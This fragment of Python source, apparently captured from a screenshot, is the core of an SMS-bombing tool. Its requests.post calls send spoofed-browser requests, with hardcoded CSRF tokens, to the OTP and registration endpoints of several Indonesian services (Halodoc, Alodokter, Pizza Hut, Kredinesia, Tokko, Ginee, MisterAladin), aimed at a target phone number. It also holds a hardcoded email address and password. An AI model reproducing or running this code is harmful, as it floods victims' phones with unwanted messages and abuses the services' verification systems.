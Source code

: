             req4 = requests.post('https://www.halodoc.com/api/v1/users/authentication/otp/requests', headers={'Host': 'www.halodoc.com','x-xsrf-token': '9F1AFC784408F11F0FCD3071E845FBEB52B13A6C8C5740172F9C526E0DCA9A69B37505EDB5FAF1C97C522F4B09AFCF2F7C89','sec-ch-ua-mobile': '?1','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','content-type': 'application/json','accept': 'application/json, text/plain, */*','save-data': 'on','origin': 'https://www.halodoc.com','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({"phone_number": "+62"+nomor,"channel": "sms"})).text
            req3 = requests.post('https://www.alodokter.com/login-with-phone-number', headers={'Host': 'www.alodokter.com','content-length': '33','x-csrf-token': 'UG8hv2kV0R2CatKLXYPzT1isPZuGHVJi8sjnubFFdU1YvsHKrmIyRz6itHgNYuuBbbgSsCmfJWktrsfSC9SaGA==','sec-ch-ua-mobile': '?1','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','content-type': 'application/json','accept': 'application/json','save-data': 'on','origin': 'https://www.alodokter.com','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://www.alodokter.com/login-alodokter','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({"user": {"phone": "0"+nomor}})).text
            pizzahut=requests.post('https://api-prod.pizzahut.co.id/customer/v1/customer/register', headers={'Host': 'api-prod.pizzahut.co.id','content-length': '157','x-device-type': 'PC','sec-ch-ua-mobile': '?1','x-platform': 'WEBMOBILE','x-channel': '2','content-type': 'application/json;charset=UTF-8','accept': 'application/json','x-client-id': 'b39773b0-435b-4f41-80e9-163eef20e0ab','user-agent': 'Mozilla/5.0 (Linux; Android 11; vivo 2007) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Mobile Safari/537.36','x-lang': 'en','save-data': 'on','x-device-id': 'web','origin': 'https://www.pizzahut.co.id','sec-fetch-site': 'same-site','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://www.pizzahut.co.id/','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en;q=0.8'},data=json.dumps({  "email": "aldigg088@gmail.com",  "first_name": "Xenzi",  "last_name": "Wokwokw",  "password": "Aldi++\\/67",  "phone": "0"+nomor,  "birthday": "2000-01-02"})).text
            mar=requests.post("https://api.kredinesia.id/v1/login/verificationCode",headers={"Host":"api.kredinesia.id","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8","origin":"https://www.kredinesia.id","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.kredinesia.id/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phone":nomor,"captcha":""})).text
            gaskeun=requests.post("https://api.tokko.io/graphql",headers={"Host":"api.tokko.io","accept-language":"id","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","content-type":"application/json","accept":"*/*","origin":"https://web.lummoshop.com","sec-fetch-site":"cross-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://web.lummoshop.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"operationName":"generateOTP","variables":{"generateOtpInput":{"phoneNumber":"+62"+nomor,"hashCode":"","channel":"SMS","userType":"MERCHANT"}},"query":"mutation generateOTP($generateOtpInput: GenerateOtpInput!) {\n  generateOtp(generateOtpInput: $generateOtpInput) {\n    phoneNumber\n  }\n}\n"})).text
            gine=requests.post("https://accounts.ginee.com/api/iam-service/account/send-verification-code",headers={"Host":"accounts.ginee.com","Connection":"keep-alive","Content-Length":"114","Accept":"application/json, text/plain, */*","Content-Type":"application/json;charset=UTF-8","Accept-Language":"en","sec-ch-ua-mobile":"?1","User-Agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","sec-ch-ua-platform":"Android","Origin":"https://accounts.ginee.com","Sec-Fetch-Site":"same-origin","Sec-Fetch-Mode":"cors","Sec-Fetch-Dest":"empty","Referer":"https://accounts.ginee.com/accounts/registered?system_id=SAAS&from=OFFICIAL_SITE&country=ID&utm_source=Article&utm_campaign=Ginee_ID","Accept-Encoding":"gzip, deflate, br"},data=json.dumps({"account":"0"+nomor,"countryCode":"ID","verificationPurpose":"USER_REGISTRATION","verificationType":"PHONE"})).text
            aladin=requests.post("https://m.misteraladin.com/api/members/v2/otp/request",headers={"Host":"m.misteraladin.com","accept-language":"id","sec-ch-ua-mobile":"?1","content-type":"application/json","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","x-platform":"mobile-web","sec-ch-ua-platform":"Android","origin":"https://m.misteraladin.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://m.misteraladin.com/account","accept-encoding":"gzip, deflate, br"},data=json.dumps({"phone_number_country_code":"62","phone_number":nomor,"type":"register"})).text
